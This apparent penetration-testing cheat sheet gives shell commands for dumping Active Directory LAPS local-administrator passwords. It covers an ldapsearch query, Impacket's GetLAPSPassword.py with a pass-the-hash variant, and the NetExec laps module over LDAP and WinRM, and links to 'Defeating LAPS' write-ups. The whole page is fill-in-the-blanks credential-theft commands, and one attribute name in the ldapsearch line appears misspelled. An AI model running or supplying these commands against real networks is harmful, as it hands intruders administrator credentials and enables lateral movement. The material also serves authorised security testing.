 # Unix Shell

## 01 - LDAP Port

### 1.1 - `ldapsearch`

```
$ ldapsearch -x -h <domain_controller_IP> -D "<username>" -w "<password>" -b "dc=<domain>,dc=<tld>" "(ms-MCS-AdmPwd=*)" ms-MSC-AdmPwd
```

### 1.2 - Impacket

```
$ GetLAPSPassword.py [<domain>/]"<username>":"<password>"@<IP>
```

Pass the Hash

```
$ GetLAPSPassword.py [<domain>/]"<username>"@<IP> -hashes :<nt_hash>
```

### 1.3 - NetExec

```
$ netexec ldap <IP> -u "<username>" -p "<password>" [-d <domain>] -kdcHost <domain_controller_IP> -M laps
```

## 02 - WinRM Port

```
$ netexec winrm <IP> -u "<username>" -p "<password>" [-d <domain>] -kdcHost <domain_controller_IP> -M laps
```

---
## References

### Mubix

- [Malicious.link: Dump LAPS passwords with ldapsearch](https://room362.com/posts/2017/dump-laps-passwords-with-ldapsearch/)

### NetExec

- [NetExec Wiki: Defeating LAPS](https://www.netexec.wiki/winrm-protocol/defeating-laps)
